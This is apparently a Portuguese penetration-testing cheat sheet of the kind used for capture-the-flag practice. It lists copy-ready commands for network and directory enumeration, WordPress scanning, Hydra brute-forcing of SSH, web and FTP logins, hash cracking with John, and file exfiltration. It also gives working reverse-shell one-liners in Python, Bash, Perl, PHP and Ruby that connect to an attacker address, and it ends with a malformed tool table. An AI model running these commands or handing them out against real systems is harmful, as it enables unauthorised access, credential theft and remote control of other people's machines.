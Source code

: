 # _**ENUMERAÇÃO → REDES**_
<mark>Com Nmap</mark>
+ **firewall ativo**: ```nmap -p [port_range] -A -Pn -T5 [ip_address]```
+ **firewall desativado**: ```nmap -p [port_range] -A -T5 [ip_address]```
+ **todas as portas**: ```nmap -p- -A -T[1-5] [ip_address]```

# _**ENUMERAÇÃO → DIRETÓRIOS**_
<mark>Com Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address]:[port] -w [dir]
> ```
+ **diretório principal**: ```../seclists/Discovery/Web-Content/common.txt```
+ **segundo scan**: ```..seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt```
+ **diretório CMS**: ```..seclists/Discovery/Web-Content/CMS/..```
+ **diretório Web-Servers**: ```../seclists/Discovery/Web-Content/Web-Servers/..```

# _**ENUMERAÇÃO → WordPress**_
<mark>Com WpScan</mark>
> ```bash
> wpscan --url [ip_address]:[port] -U -e [flag]
> ```
+ **flag para plugins vulneráveis**: ```vp```
+ **flag para todos os plugins**: ```ap```
+ **flag para temas vulneráveis**: ```vt```

# _**BRUTE FORCE → SENHAS**_
<mark>Com Hydra</mark>
> ```bash
> hydra -l [username] -P [wordlist] -t [1-5] [extensão]
> ```
+ **SSH**: ```ssh://[ip_address]```
+ **WEB**: ```[ip_address] http-post-form "[login_page]:user=^USER^&pass=^PASS^:Username or password invalid"```
+  **FTP**: ```ftp://[ip_address]```

# _**BRUTE FORCE → EXTRAÇÃO DE HASHES**_
<mark>Com John</mark>
> ```bash
> john -w=/path/to/wordlist [file_name]
> ```
+ **zip**: ```zip2john [file.zip] > [file_name]```
+ **ssh**: ```ssh2jon [file] > [file_name.hash]```

# _**EXTRAÇÃO DE ARQUIVOS**_
<mark>De uma máquina-alvo para prórpia máquina</mark>
+ **SSH**: ```scp [username]@[ip_address]:/path/to/file /local/path```
+ **FTP**: ```get [file_name]```
  * **FTP WGET**: ```wget ftp://[usuário]:[senha]@[ip_address]/[path/to/file]```

# _**SHELLS & REVERSE SHELLS**_
Para obter um _reverse shell_, é preciso da ferramenta ```netcat```
> ```bash
> netcat (nc) -lvnp [port]
> ```
<mark>Com Python</mark>
+ **Reverse shell**: ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
+ **Bash shell**: ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```

<mark>Com Bash</mark>
+ **Reverse shell**: ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1```
+ **reverse shell**: ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f```

<mark>Com Perl</mark>
+ **Reverse shell**: ```perl -e 'use Socket;$i="[ip_address]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

<mark>Com PHP</mark>
+ **Reverse shell**: ```php -r '$sock=fsockopen("[ip_address]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'```
+ **Reverse shell**: [código disponível para download → pentest_monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<mark>Com Ruby</mark>
+ **Reverse shell**: ```ruby -rsocket -e'f=TCPSocket.open("[ip_address]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

<mark>Com Java</mark>
+ **Reverse shell**: [com este código, em upload web, pode-se obter reverse shell](https://github.com/V0idA2tronaut/Programming/tree/main/Scripts/Shell%20scripts/SHELL%20JAVA)

SEM DECISÃO
+ Binwalk | binwalk -e [file_name] |
| Steghide | steghide extract -sf [file_name][.jpg] |
| Hexeditor | hexeditor [file_name] |
| Strings | strings [file_name] 
